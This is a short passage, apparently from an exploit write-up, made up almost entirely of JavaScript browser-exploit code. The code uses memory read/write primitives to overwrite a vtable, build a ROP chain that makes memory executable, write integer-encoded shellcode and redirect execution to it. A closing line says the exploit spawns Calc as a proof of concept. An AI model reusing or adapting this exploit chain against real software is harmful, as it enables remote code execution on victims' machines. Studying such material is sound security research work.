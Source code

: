 ```
for(var i=0; i<32; i++) mywrite(GUESS+64+i*4, myread(vftable+i*4))
mywrite(GUESS+64+5*4, g1)  


mywrite(MARK_ADDR+4, g3)
mywrite(MARK_ADDR+8, GUESS+0xbc)


rop = [
myread(ESCRIPT_BASE + 0x01B0058), 
GUESS+0x120, 
GUESS+0x120, 
0x1000, 
0x40, 
GUESS-0x20
]
for(var i=0; i<rop.length;i++) mywrite(GUESS+0xbc+4*i, rop[i])


shellcode = [835867240, 1667329123, 1415139921, 1686860336, 2339769483,
            1980542347, 814448152, 2338274443, 1545566347, 1948196865, 4270543903,
            605009708, 390218413, 2168194903, 1768834421, 4035671071, 469892611,
            1018101719, 2425393296]
for(var i=0; i<shellcode.length; i++) mywrite(GUESS+0x120+i*4, re(shellcode[i]))


mywrite(MARK_ADDR, GUESS+64)


```

Finally with that exploit, we can spawn our Calc.